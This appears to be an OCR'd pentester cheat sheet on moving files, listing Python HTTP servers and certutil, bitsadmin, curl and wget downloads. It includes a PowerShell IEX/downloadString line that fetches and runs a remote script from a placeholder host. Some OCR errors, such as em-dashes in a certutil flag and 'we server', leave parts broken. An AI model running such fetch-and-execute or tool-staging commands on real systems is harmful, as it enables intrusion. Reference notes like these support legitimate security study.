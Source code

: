 ### File transfer
Python we server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000

# Windows file transfer
certutil.exe —urlcache —f http://<webpage>/file.txt file.txt

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

bitsadmin /transfer myDownloadJob /download /priority normal https://www.hkrefill.com/images/billboard/cheapselftake.gif "C:\Users\helpdesk\Downloads\cheap.gif"

curl  "https://www.hkrefill.com/images/billboard/cheapselftake.gif" --output abc.gif


powershell "IEX(New-Object Net.WebClient).downloadString('http://<webpage>:8000/file.txt')"

# Linux file transfer
wget http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

wget -O wget.zip http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

file contains dl link
wget -i download-linux.txt